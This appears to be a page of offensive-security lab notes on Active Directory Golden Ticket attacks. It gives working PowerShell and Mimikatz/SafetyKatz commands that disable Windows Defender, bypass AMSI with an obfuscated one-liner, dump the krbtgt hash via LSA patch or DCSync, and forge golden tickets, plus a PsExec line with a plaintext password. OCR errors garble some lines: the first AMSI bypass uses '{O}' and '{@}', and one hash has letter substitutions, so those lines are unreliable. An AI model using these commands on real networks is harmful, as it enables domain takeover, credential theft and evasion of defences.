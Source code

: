 # 1 Golden Ticket

## Golden Ticket

### Methodology/Steps

> 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
> 2. Create a **New-PSSession** attaching to the **"domain controller"**
> 3. Enter the new session using **Enter-PSSession**
> 4. Bypass the _AMSI_
> 5. Exit
> 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 7. Enter the new session using **Enter-PSSession** _again_
> 8. Now we can execute mimikatz on the DC
> 9. Keep note of **krbtgt** hash
> 10. Now go to any **"non domain admin"** account
> 11. Load **Mimikats.ps1**
> 12. Now we can create a ticket using the DC **krbtgt** hash
> 13. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or
>
>     ```powershell
>     PsExec64.exe \\prodsrv.garrison.castle.local -u GARRISON\prodadmin -p Password1! cmd
>     ```

***

## Invoke-Mimikatz

### Disable Defender \[ Important ]

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

### AMSI bypass \[ Important ]

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

### Execute mimikatz on DC as DA to get krbtgt hash

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### Create a ticket on any machine \[ "pass the ticket" attack]

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5bO0dc865eadcea941le4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### List Kerberos services available

```powershell
klist
```

### To use the DCSync feature for getting krbtg hash execute the below command with DA privileges

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

```ad-note
Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC
```

***

## Binaries

### Using SafetyKatz

```powershell
C:\Users\Public\SafetyKatz.exe "lsadump::lsa /patch" "exit" 
or
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

### On a machine which can reach the DC over network (Need elevation):

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
